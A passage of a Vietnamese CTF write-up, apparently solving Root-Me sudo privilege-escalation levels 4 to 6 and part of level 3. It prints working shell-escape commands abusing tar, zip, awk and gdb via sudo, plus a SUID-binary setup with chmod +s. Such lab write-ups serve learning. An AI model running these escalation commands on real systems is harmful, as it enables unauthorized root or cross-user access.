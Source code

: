 Compile và gán SUID cho nó:

```
gcc shell.c -o testfile && chmod 777 testfile && chmod +s testfile
```

Tại đây mình nhận ra document có bị **thiếu** đôi chút, chỉnh lại như sau để bypass:

```
sudo -u app-script-ch14-3 /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![](https://images.viblo.asia/4fc2efc1-c9c0-428d-94b5-3520d5a09af8.png)



#### Level 4

Cùng xem level 4 có gì:

![](https://images.viblo.asia/06f80abc-8e33-4ace-8750-1da54f53e8a5.png)

Như vậy là **ZIP**. 

Cực kỳ đơn giản, follow theo document và chỉnh sửa ít chỗ là xong:

```
//Tạo file test trước rồi:
sudo -u app-script-ch14-4 /usr/bin/zip test.zip test -T --unzip-command="sh -c /bin/bash"
```

![](https://images.viblo.asia/8a841413-44de-4ffa-9a73-13ccef78255e.png)


#### Level 5:

![](https://images.viblo.asia/caf60db2-0568-44a6-ae9b-ba82ce03daa3.png)

Vậy đây là **awk**, đề theo xu hướng dễ dẫn, follow document và sửa chút xíu là xong :D 

Command:

```
sudo -u app-script-ch14-5 /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

![](https://images.viblo.asia/e05edf2b-45d0-4623-8c88-0495e5350986.png)

#### Level 6: 

Tại đây thì thậm chí chẳng phải modify chút nào luôn!

Command:

```
sudo -u app-script-ch14-6 /usr/bin/gdb
```
Sau đó gõ
```
!/bin/sh hoặc
!/bin/bash
```
